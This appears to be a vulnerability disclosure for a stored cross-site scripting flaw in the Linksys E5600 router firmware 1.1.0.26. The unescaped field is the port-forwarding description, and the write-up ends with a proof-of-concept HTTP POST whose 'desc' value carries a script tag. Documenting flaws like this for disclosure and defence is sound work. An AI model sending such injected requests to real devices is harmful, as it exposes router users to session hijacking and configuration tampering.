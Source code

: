 # TARGET
Linksys E5600 Router
Firmware Version:1.1.0.26


# BUG TYPE
Cross-Site Scripting(XSS)

# Abstract
The dynamic string concatenation (prf_table_content = prf_table_content + ...) lacks proper escaping and filtering, especially for user-controlled fields like element.desc. This field is directly embedded into the HTML without sanitization, allowing attackers to inject malicious scripts, resulting in potential XSS vulnerabilities.

# Details

\squashfs-root\www\pages\setting\security\setting-security-portrangefowarding.html

![[Snipaste_2025-01-07_19-39-11.png]]
The dynamic string concatenation (`prf_table_content = prf_table_content + ...`) used in the construction of the HTML table lacks proper escaping and filtering, specifically in the handling of user-controlled data such as the `element.desc` field. The `element.desc` field is directly embedded into the HTML output without sanitization, making it possible for attackers to inject malicious JavaScript or HTML content.Successful exploitation of this vulnerability could allow attackers to perform unauthorized actions, steal sensitive information, or hijack user sessions.

![[屏幕截图 2025-01-07 194217.png]]
An attacker can craft malicious inputs that are injected into a similar data structure via external sources such as API requests, malicious configuration files, or specially crafted HTTP requests. These inputs are rendered into the web interface without proper sanitization, enabling the execution of injected JavaScript code when the victim accesses the affected page.

![[Snipaste_2025-01-07_19-49-00.png]]


POC
```
POST /API/obj HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 199
Origin: http://192.168.1.1
Connection: keep-alive
Referer: http://192.168.1.1/setting.html
Cookie: HSESSIONID=19216811221637991217
Priority: u=0

{
    "portRangeForward": {
        "PortRangeForwardT": [
            {
                "desc": "<script>alert('XSS')</script>",
                "externalPortStart": "2",
                "externalPortEnd": "6",
                "proto": "both",
                "deviceIp": "192.168.1.22",
                "enable": "0",
                "name": "prf0"
            }
        ]
    }
}
```